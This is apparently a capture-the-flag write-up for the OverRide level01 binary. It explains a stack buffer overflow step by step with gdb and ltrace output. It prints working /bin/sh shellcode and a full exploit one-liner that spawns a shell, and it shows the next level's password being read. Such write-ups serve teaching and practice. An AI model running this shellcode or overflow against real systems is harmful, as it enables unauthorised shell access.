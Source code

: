 # Walkthrough

## Solution
```
(python -c "print 'dat_will' + '\n' + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'A' * 35 + '\xdc\xd6\xff\xff'"; cat -) | ./level01 
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```  

## Explanation

### Execution

```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...
```  
-> The program asks for a username


### Disassembly

```
info var
0x0804a040  a_user_name

info func
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
```

You can view the commented asm code [here](resources/disassembly.asm)  
You can view the asm code translated to C [here](source.c)  

### Steps

The programs asks for a username, and a password if the username is "dat_will".
The password is admin.
However, there is no syscall to a shell -> use a shellcode.

- Find the offset
The program does not segfault when it prompts for the username.  
But it does for the password.  

```
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
verifying username....

nope, incorrect username...

[Inferior 1 (process 1824) exited with code 01]
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_will
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```  
-> The offset is at 80.

- Find the address where the password is saved  

```
(gdb) break *0x0804857d
Breakpoint 1 at 0x804857d
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_will
verifying username....

Enter Password: 
hello

Breakpoint 1, 0x0804857d in main ()
(gdb) display/i $pc
1: x/i $pc
=> 0x804857d <main+173>:	mov    %eax,(%esp)
(gdb) x/s $eax
0xffffd6bc:	 "hello\n"

------------------

level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10300, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                       = 39
printf("Enter Username: ")                                        = 16
fgets(Enter Username: dat_will
"dat_will\n", 256, 0xf7fcfac0)                              = 0x0804a040
puts("verifying username....\n"verifying username....

)                                  = 24
puts("Enter Password: "Enter Password: 
)                                          = 17
fgets(hello
"hello\n", 100, 0xf7fcfac0)                                 = 0xffffd6dc <-- address that stores the return address of the fgets(password)
puts("nope, incorrect password...\n"nope, incorrect password...

)                             = 29
+++ exited (status 1) +++

```

- Shellcode (45 char)  
```
'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'
```

Payload: "dat_will" + "\n" (to terminate the 1st fgets) + shellcode + 35 * "A" (80 - 45 (shellcode)) + return address of 2nd fgets  

> (python -c "print 'dat_will' + '\n' + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'A' * 35 + '\xdc\xd6\xff\xff'"; cat -) | ./level1